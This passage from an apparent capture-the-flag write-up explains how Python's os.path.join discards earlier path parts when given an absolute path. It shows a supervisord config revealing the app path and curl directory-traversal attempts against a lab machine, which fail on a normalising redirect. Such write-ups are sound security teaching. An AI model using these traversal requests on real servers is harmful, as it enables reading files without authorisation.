 This feels a bit unexpected, but it is the intended behavior according to [the docs](https://docs.python.org/3.10/library/os.path.html#os.path.join):

> If a component is an absolute path, all previous components are thrown away and joining continues from the absolute path component.

#### Knowing Absolute Path

The `Dockerfile` shows that the command run is `supervisord` using the config file from `config`:

```

[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:flask]
command=python /app/run.py
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

```

This shows that it’s running `/app/run.py`, which shows the absolute path to the application in the container.

#### Directory Traversal

Knowing this, I might think I can do something like `curl --path-as-is http://10.10.11.164/uploads//app/run.py`, but it doesn’t work:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads//app/run.py
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://10.10.11.164/uploads/app/run.py">http://10.10.11.164/uploads/app/run.py</a>. If not, click the link.

```

Before the request gets to Flask to process, a redirect to a “normalized” URL is being sent, which breaks my exploit. This isn’t specific to the exploit attempt. For example, just reading the legit uploaded file with an extra `/` does that same thing:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads//htb.png
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://10.10.11.164/uploads/htb.png">http://10.10.11.164/uploads/htb.png</a>. If not, click the link.

```
